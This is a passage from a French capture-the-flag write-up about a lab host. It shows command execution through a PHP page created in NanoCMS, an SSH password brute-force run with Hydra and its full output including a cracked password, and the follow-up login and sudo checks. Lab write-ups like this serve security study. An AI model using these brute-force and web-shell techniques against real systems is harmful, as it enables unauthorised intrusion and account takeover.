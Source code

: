 ![NanoCMS edit a PHP webpage](https://raw.githubusercontent.com/devl00p/blog/master/images/ctf5.png)

On peut ensuite lancer des commandes simplement via */~andy/data/pages/pwned.php?cmd=ls*  

Mais cet accès ne semble pas apporter plus d'informations...  

J'ai préféré lancer une attaque brute-force sur les comptes SSH en utilisant une liste des 500 pires mots de passe.  

```plain
$ ./hydra -L users.txt -P top500.txt -e nsr ssh://192.168.1.69
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-14 14:42:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2510 login tries (l:5/p:502), ~9 tries per task
[DATA] attacking service ssh on port 22
[STATUS] 187.00 tries/min, 187 tries in 00:01h, 2323 todo in 00:13h, 10 active
[STATUS] 156.00 tries/min, 468 tries in 00:03h, 2042 todo in 00:14h, 10 active
[STATUS] 157.00 tries/min, 1099 tries in 00:07h, 1411 todo in 00:09h, 10 active
[STATUS] 153.92 tries/min, 1847 tries in 00:12h, 663 todo in 00:05h, 10 active
[22][ssh] host: 192.168.1.69   login: amy   password: dolphins
[STATUS] attack finished for 192.168.1.69 (waiting for children to finish) ...
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-14 14:56:21
```

Hydra a trouvé le password *dolphins* pour l'utilisatrice *amy*.  

```plain
$ ssh amy@192.168.1.69
amy@192.168.1.69's password: 
[amy@localhost ~]$ history
    1  su patrick
    2  su jennifer
    3  su andy
    4  su loren
    5  exit
    6  history
[amy@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Mot de passe : 
Sorry, user amy may not run sudo on localhost.
```
